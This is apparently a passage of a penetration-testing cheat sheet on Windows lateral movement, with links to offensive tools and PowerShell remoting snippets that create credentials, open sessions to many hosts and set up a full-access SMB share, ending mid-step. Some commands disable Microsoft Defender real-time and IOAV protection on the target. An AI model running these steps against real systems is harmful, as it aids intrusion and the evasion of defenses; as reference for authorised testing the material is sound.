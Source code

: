 #### <a name='smbexec'></a>smbexec
🔑 KEYPOINTS :

### <a name='invoke-SMBRemoting'></a>invoke-SMBRemoting

[Invoke-SMBRemoting](https://github.com/Leo4j/Invoke-SMBRemoting)

### <a name='powershell'></a>powershell

* [PowerMeUp](https://github.com/ItsCyberAli/PowerMeUp)
* [pwncat](https://github.com/calebstewart/pwncat)
* [PSRemoting](https://www.jmvwork.xyz/sysadmin/sys-win-ps-useful-queries/#PSCredentialinitialization)
* silver tickets : HTTP, HOST (Depending on OS version may also need: WSMAN, RPCSS)

#### <a name='pscredential'></a>pscredential
```powershell
$zdom = "contoso"
$ztarg_user_name = "john_doe"
$ztarg_user_pass = "PASSWORD" | ConvertTo-SecureString -AsPlainText -Force
$ztarg_user_login = $zdom + "\" + $zlat_user
$ztarg_creds = New-Object System.Management.Automation.PSCredential($ztarg_user_login,$ztarg_user_pass)
```

#### <a name='pssession'></a>pssession

!!! Verify [WinRM is running](/sysadmin/sys-win-cli/#activatePSRemoting) !!!

```powershell
# create and enter a session
$zs = New-PSSession -ComputerName $ztarg_computer_fqdn -Credential $ztarg_creds
Enter-PSSession -Session $zs

# create sessions for many computers
$zrs = Get-Content C:\Windows\Temp\computers_list.txt | New-PSSession -ThrottleLimit 50
Get-PSSession
Enter-PSSession -id 3

# remote command execution
Invoke-Command -Session $zs -ScriptBlock {systeminfo}
Invoke-Command -Session $zs -ScriptBlock {set-MpPreference -DisableIOAVProtection $true}
Invoke-Command -Session $zs -ScriptBlock {set-MpPreference -DisableRealtimeMonitoring $true}
Invoke-Command -Session $zs -ScriptBlock {$ExecutionContext.SessionState.LanguageMode}

# clean the current session
Exit-PsSession

# clean multiple bakcground sessions 
Get-PSSession | Disconnect-PSSession 
```

#### <a name='transfer-smb'></a>transfer-smb
```powershell

# STEP 1: create a smb share on the remote machine
$zshare = "hope"
$zcmd = 'New-SmbShare -name ' + $zshare + ' -path "c:\windows\temp" -FullAccess ' + $ztarg_login
$zsb = [scriptblock]::create($zcmd)
Invoke-Command -Session $zs -ScriptBlock $zsb

# OPTIONAL: check the share was created
Invoke-Command -Session $zs -ScriptBlock {net share}

# STEP 2.1: download a file to C:\windows\temp
$zfile = 'test.txt'
```